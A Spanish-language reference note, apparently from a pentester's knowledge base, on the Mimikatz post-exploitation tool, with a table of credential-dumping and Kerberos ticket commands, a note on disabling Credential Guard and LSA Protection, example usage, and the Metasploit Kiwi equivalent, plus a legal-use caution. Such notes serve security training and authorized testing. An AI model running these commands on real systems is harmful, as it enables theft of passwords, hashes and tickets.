 # 🧠 Mimikatz - Extracción avanzada de credenciales

**Mimikatz** es una herramienta de post-explotación desarrollada por **Benjamin Delpy** que permite extraer credenciales, hashes, certificados y tickets de un sistema Windows.

## 🧬 ¿Para qué sirve?

Con Mimikatz se puede:

- Obtener contraseñas en texto claro desde memoria
- Volcar hashes de usuario (LM/NTLM)
- Acceder a secretos de LSA
- Ver e inyectar tickets Kerberos
- Elevar privilegios usando tokens

## ⚙️ Funcionalidades principales

| Comando                       | Función |
|------------------------------|--------|
| `sekurlsa::logonpasswords`   | Extrae contraseñas y hashes desde LSASS |
| `lsadump::sam`               | Volca hashes del archivo SAM |
| `lsadump::lsa`               | Extrae secretos guardados por el sistema |
| `kerberos::list`             | Lista tickets Kerberos |
| `kerberos::ptt`              | Inyecta un ticket (Pass-The-Ticket) |
| `token::elevate`             | Eleva privilegios con tokens impersonados |
| `privilege::debug`           | Habilita privilegios requeridos para ejecutar comandos |

## 🖥️ Requisitos

- Ejecutar como **Administrador** o **SYSTEM**
- Puede requerir desactivar protecciones como:
  - Credential Guard
  - LSA Protection

## 🧪 Ejemplo de uso

````powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
````

---

## 🔄 Relación con Metasploit

En Metasploit, podés usar **Kiwi**, una versión embebida de Mimikatz dentro de `meterpreter`, sin subir binarios.

```bash
meterpreter > load kiwi
meterpreter > kiwi_cmd sekurlsa::logonpasswords
```

## 🛡️ Precauciones legales

Mimikatz es una herramienta poderosa que **debe usarse solo en entornos autorizados**. Su uso en sistemas sin permiso es **ilegal** y puede traer consecuencias penales.

> ✅ Ideal para pentesters, red teams, análisis forense y laboratorios de seguridad.

[[herramientas]]